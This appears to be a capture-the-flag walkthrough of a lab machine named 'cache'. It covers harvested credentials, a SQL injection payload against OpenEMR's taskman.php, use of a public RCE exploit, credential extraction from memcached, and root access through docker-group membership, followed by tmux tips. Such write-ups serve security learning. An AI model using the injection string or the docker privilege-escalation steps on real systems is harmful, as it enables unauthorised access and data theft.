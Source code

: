 # cache : ``

**Table Of Contents:**

<!-- TOC -->

- [cache : ``](#cache--)
  - [CREDENTIALS](#credentials)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)
  - [TMUX COPY-PASTE](#tmux-copy-paste)

<!-- /TOC -->

## CREDENTIALS


|     Service     |   Username   |  Password  |
| :----------------: | :-------------: | :----------: |
| functionality.js |      ash      |  H@v3_fun  |
|     Database     | openemr_admin |   xxxxxx   |
|    mysql.conf    |    openemr    | 3open6emr9 |
|    memcached    |     luffy     | 0n3_p1ec3 |

Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH) 🌟(luffy:0n3_p1ec3)
- [ ] 80 (HTTP)

---

## FootHold

- Javascript `functionality.js` is checking for valid username and passwords. `ash:H@v3_fun`
- `/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1'+and+updatexml(1,concat(0x7e,+(select+username+from+users_secure+LIMIT+2,1)),0)+or+'` -  Vulnerable to sql injection
- `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.` 👉 `openemr_admin:xxxxxx'
- Use a python script from searchsploit to gain rce and we got www-data.

---

## Lateral Movement

- We got hold of www-data. Remember we extracted a password from functionality.js file for user ash.

  > ash:H@v3_fun
  >
- Memcached is installed on the server.

  ```bash
     memcache  1038  0.0  0.1 425792  4148 ?        Ssl  14:37   0:04 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
  ```

- Extract credential from memcached server.

  > luffy:0n3_p1ec3
  >

---

## Privilege Escalation

- User `luffy` is in the docker group. Interesting though!!! 🤔

  ```bash
  uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
  ```
  
- There is a image `ubuntu` already in the system. Run the image and mount the /root into /mnt folder.
- Giving access to the docker group is the same as to give constant root access without any password to any other user. In this case, the user is luffy.

```bash
luffy@cache:~$ docker run -v /root:/mnt -it ubuntu
root@2c17f1632932:/# ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@2c17f1632932:/# ls /mnt
root.txt
root@2c17f1632932:/# cat /mnt/root.txt
607301060dd49ad9652ed7baea45430d
```

---

## TMUX COPY-PASTE

1. PREFIX + `CTRL + [` TO GO INTO SELECTION MODE.
2. `CTRL + SPACE` TO GO INTO COPY MODE.
3. `ALT + W` to copy into tmux buffer.
4. PREFIX + `y` to copy the latest tmux buffer to system clipboard.

---
